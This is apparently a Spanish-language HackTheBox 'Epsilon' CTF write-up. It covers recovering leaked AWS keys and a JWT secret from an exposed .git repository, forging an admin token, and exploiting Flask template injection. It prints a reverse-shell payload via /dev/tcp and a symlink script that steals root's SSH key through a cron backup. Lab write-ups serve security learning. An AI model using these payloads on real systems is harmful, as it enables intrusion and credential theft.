```yaml
---
layout: post
toc: true
title: "Epsilon - HackTheBox Writeup"
categories: HackTheBox
tags: [CTF, Web]
author:
  - H4RRIZN
---
```


![logo](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/5bde9ea27c8aaef510c8b6e1ce6b22207714d839/_includes/CTFIMG/Epsilon/logo.png)

## Reconocimiento
Para comenzar realizaremos un scan con nmap para visualizar los puertos abiertos en el host victima:
```bash
nmap -sS --min-rate 1500 -p- --open -vv -n -Pn 10.10.11.134
```
![recon1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/202d617891b7a83d56011b58a1cfbd494f019547/_includes/CTFIMG/Epsilon/recon1.png)   
Vemos abiertos los puertos 22, 80 y 5000. Realizaremos otro scan para obtener más detalles de los servicios y versiones utilizados en estos puertos:    
![recon2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/202d617891b7a83d56011b58a1cfbd494f019547/_includes/CTFIMG/Epsilon/recon2.png)    
  Podemos observar que el puerto 80 revela el directorio **`.git`**.  Al ingresar al puerto 5000 http observamos que tenemos un panel de autenticación:    
![recon3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/202d617891b7a83d56011b58a1cfbd494f019547/_includes/CTFIMG/Epsilon/recon3.png)    
De momento no podemos hacer mucho en este panel.

## Analizando .git
Como el resultado del script de nmap nos revelo el directorio .git en **`10.10.11.134/.git`** podemos utilizar la herramienta Githack para recomponer este repositorio:    
```bash
pip install githack
```
![git0](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git0.png)   
![git1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git1.png)    
Como observamos contamos con 2 ficheros los cuales corresponden a **`server.py`** y **`track_api_CR_148.py`**. Analizaremos los ficheros individualmente.
### server.py
Para **`server.py`** podemos notar que en las primeras líneas de código se evidencia el uso de **`Json Web Token`** además de que la aplicación estaría construida con **`Flask`**. Notamos que se verifica un JWT el cual hace uso del algoritmo **`HS256`** para su construcción y recibe el **`username`**:    
![git2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git2.png)    
Al inspeccionar más el código notamos diversas rutas como **`/track`** y **`/order`**.    
![git3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git3.png)    
Las cuales si ingresamos en el puerto 80 no obtendremos resultados. Pero si tenemos resultados para el puerto 5000 lo que indica que el código fuente encontrado corresponde para este puerto en especifico:      
![git4](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git4.png)
### track_api_CR_148.py
Para el fichero **`track_api_CR_148.py`** analizamos que también existen variables en forma de secreto. No tenemos estas claves pero si podemos ver que se revela el endpoint de AWS el cual es **`http://cloud.epsilon.htb`**. Agregamos este al fichero /etc/hosts de nuestra maquina.     
![git5](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git5.png)
Además vemos que se definen funciones las cuales ***Zipean*** una ruta de alguna forma. Adicionalmente tenemos el siguiente fragmento **`update_lambda`** el cual simplemente es una función que verifica la existencia de un directorio de Lambda y luego actualiza el código de la función utilizando la API de AWS Lambda.     
![git6](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git6.png)     
Ya con esto en mente procedemos a enumerar los commits del proyecto utilizando git para observar distintas versiones de estos códigos.
### Git Log
Utilizando el comando **`git log`** podemos ver los commits realizados. Observamos el primer commit (el de más abajo) el comentario de “Adding Tracking API Module” lo cual llama la atención ya que fue la primera implementación del código **`track_api_CR_148.py`**:    
![git7](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git7.png)
Podemos visualizar este utilizando el comando **`git show <commit>`**:    
![git8](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git8.png)    
Vemos como se revelan los secretos para conectarse a aws:

aws_access_key_id='**`AQLA5M37BDN6FJP76TDC`**'
aws_secret_access_key='OsK0o/**`glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A`**'

Utilizaremos estos para explorar las funciones.
### AWS
Lo primero es configurar AWS con los secretos utilizando **`aws configure`**:
![git9](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git9.png)    
Ya con esto podemos explorar las funciones, tengamos en cuenta que se nos mostrarón funciones **`lambda`** por lo que utilizaremos estás en aws:    
```bash
aws --endpoint=http://cloud.epsilon.htb lambda list-functions
```
![git10](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git10.png)     
Observamos que tenemos la función **`costume_shop_v1`** disponible. Podemos utilizar el siguiente comando para obtener la función:     
```bash
aws --endpoint=http://cloud.epsilon.htb lambda get-function --function-name=costume_shop_v1
```
![git11](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git11.png)    
Y obtenemos la localización de la función la cual es un comprimido **`ZIP`**. Descargamos la función utilizando wget y la renombramos para convertirlo en un comprimido **`.zip`** y la descomprimimos para obtener el código:    
![git12](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/3b65e0d602539aa7c03f723df6f88cb1d195ac9c/_includes/CTFIMG/Epsilon/git12.png)    
Y observamos que esta contiene un secreto hardcodeado el cúal podriamos utilizar para crear un token JWT.

## Creando JWT
Desde este punto ya que contamos con un **`secret`** podemos intentar crear un token JWT para su uso. Para esto utilizamos el siguiente script en python3:    
```python
import jwt
secret = "RrXCv`mrNe!K!4+5`wYq"
encoded_jwt = jwt.encode({"username": "admin"}, secret, algorithm="HS256")
print("[!] Token Generado: " + encoded_jwt)
```
![jwt0](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/193162ce1dc03e6c7535d1603e23af2bfb2c6b13/_includes/CTFIMG/Epsilon/jwt0.png)    
Copiamos el token generado y lo utilizamos ante el puerto 5000 con el nombre de **`auth`** como vimos en el código **`server.py`**:     
![jwt1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/193162ce1dc03e6c7535d1603e23af2bfb2c6b13/_includes/CTFIMG/Epsilon/jwt1.png)

## SSTI
Ahora que podemos explorar libremente observamos que en **`order`** podemos seleccionar un **`costume`** el cual si presionamos en **`order`** se despliega el mensaje de “Your order of "phantom" has been placed successfully.” En este caso al seleccionar el item de **`Phatnom Mask`**
![ssti0](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/be3f4b8e7e5a9ae2fd85341e8bcb9cc06ed58d54/_includes/CTFIMG/Epsilon/ssti0.png)    
Realizamos la misma petición pero esta vez con BurpSuite e identificamos que en el parámetro **`costume`** se pasa el valor de **`phantom`**:     
![ssti1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/be3f4b8e7e5a9ae2fd85341e8bcb9cc06ed58d54/_includes/CTFIMG/Epsilon/ssti1.png)    
Si cambiamos el valor de **`phantom`** por cualquier cosa como por ejemplo **`h4rri`** observamos que se muestra el valor de este:     
![ssti2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/be3f4b8e7e5a9ae2fd85341e8bcb9cc06ed58d54/_includes/CTFIMG/Epsilon/ssti2.png)    
Vemos que el valor se refleja correctamente. Sabemos por el script **`server.py`** que la aplicación está construida con **`Flask`**. Probamos un payload tipico para estos casos para probar la vulnerabilidad de Server-Side Template Injection el cual es **`{{7*7}}`** si el resultado de este es **`49`** entonces estamos ante la vulnerabilidad mencionada:     
![ssti3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/be3f4b8e7e5a9ae2fd85341e8bcb9cc06ed58d54/_includes/CTFIMG/Epsilon/ssti3.png)
Con la vulnerabilidad confirmada ya podemos buscar una forma de ejecutar comandos y obtener acceso a la maquina victima.
## Shell as Tom
Para ganar acceso a la maquina victima podemos utilizar el siguiente payload:    
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "/bin/bash -i >& /dev/tcp/10.10.14.10/443 0>&1"').read() }}
```
Desde ya nos ponemos en escucha con netcat:    
![sh1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/f70311343e42ac315b4093dee0def1ed4da18c02/_includes/CTFIMG/Epsilon/sh1.png)
A continuación enviamos el payload en BurpSuite:    
![sh2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/f70311343e42ac315b4093dee0def1ed4da18c02/_includes/CTFIMG/Epsilon/sh2.png)  
![sh3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/f70311343e42ac315b4093dee0def1ed4da18c02/_includes/CTFIMG/Epsilon/sh3.png)    
Desde este punto ya podemos leer la flag ubicada en el directorio del usuario tom.
## Privesc
Al ejecutar Linpeas no observamos nada de mucho valor para escalar privilegios. Por lo que nos disponemos a enumerar procesos que no podamos ver utilizando la herramienta pspy. La descargamos en la maquina victima, le asignamos permisos de ejecución y la ejecutamos:    
![priv0](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv0.png)   
Observamos que el usuario root arranca una tarea cron y posteriormente ejecuta el script **`backup.sh`** ubicado en **`/usr/bin`**:     
![priv1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv1.png)     
El script tiene el siguiente contenido:      
![priv2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv2.png)      
La línea `/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"` crea un nuevo archivo comprimido en el directorio `/var/backups/web_backups/`. 

El nombre del archivo es `${check_file}.tar`, donde `${check_file}` es el valor de la variable `check_file`. El contenido del archivo comprimido incluye el archivo `/opt/backups/checksum` y el archivo comprimido anteriormente creado `/opt/backups/$file.tar`.

Observamos además de que se está utilizando **`tar`** con el parámetro **`-h`** el cual según su descripción:    
![priv3](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv3.png)    
En base a esto podemos probar el crear un fichero en el directorio **`/opt/backups`** con el nombre de **`checksum`** el cual apunte directamente a la flag del usuario root o a la clave ssh del usuario root para ganar acceso al sistema con este. Para esto haremos uso de un script en python3 ya que la maquina victima cuenta con este lenguaje:    
```python
import os
while True:
	if os.path.exists("/opt/backups/checksum"):
		os.remove("/opt/backups/checksum")
		print("[+] File deleted")
os.symlink("/root/.ssh/id_rsa", "/opt/backups/checksum", target_is_directory=True)
print("[+] Symlink created")
break
```
![priv4](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv4.png)    
Observamos que el script se ejecuto correctamente. Ahora copiamos el ultimo fichero `tar` creado al directorio tmp y lo descomprimimos:     
![pirv5](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv5.png)    
Posteriormente ingresamos a la carpeta resultando la cual es opt y luego a backups:     
![priv6](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv6.png)

![priv7](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv7.png)     
Como apreciamos contamos con el fichero checksum, el cual si revisamos podemos notar que es una clave rsa para utilizar con SSH:     
![priv8](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv8.png)    
La copiamos y la guardamos en nuestra maquina de atacante. Le asignaremos permisos con `chmod 600` para que contenga los permisos del propietario: 
![priv9](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/8c8556c7da19f7d4a74d134ca7bfd23559794cc1/_includes/CTFIMG/Epsilon/priv9.png)     
Observamos que tenemos acceso como usuario root, y ya podremos leer la flag:     
![priv10](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/1691d8739fe9c2bea4720350b8bf4c406c417fe0/_includes/CTFIMG/Epsilon/priv10.png)

Pwned! 🏴‍☠️
